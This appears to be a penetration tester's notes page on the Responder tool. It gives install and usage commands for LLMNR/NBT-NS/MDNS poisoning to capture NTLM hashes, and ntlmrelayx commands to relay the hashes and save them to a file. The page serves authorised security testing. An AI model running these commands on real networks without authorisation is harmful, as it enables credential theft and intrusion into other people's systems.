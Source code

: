 ```yaml
---
description: >-
  Responder is an LLMNR, NBT-NS and MDNS poisoner. Easy footholds on nearly
  every internal pentest.
---
```


# Responder

### Installation

Install Responder using git:

`git clone https://github.com/lgandx/Responder`

### Usage

Basic Usage \
`./Responder.py -I [INTERFACE] -dwP`

Relay hashes obtained \
`./Responder.py -I [INTERFACE] -dwP` \
`python ntlmrelayx.py -tf targets.txt`

We can also save the hashes being relayed so they aren't yeeted into the void \
`python ntlmrelay.py -tf targets.txt -of NTLMOutput.txt`

### References

* [Laurent Gaiffé Blog](https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html)
* [Practical guide to NTLM Relaying](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)
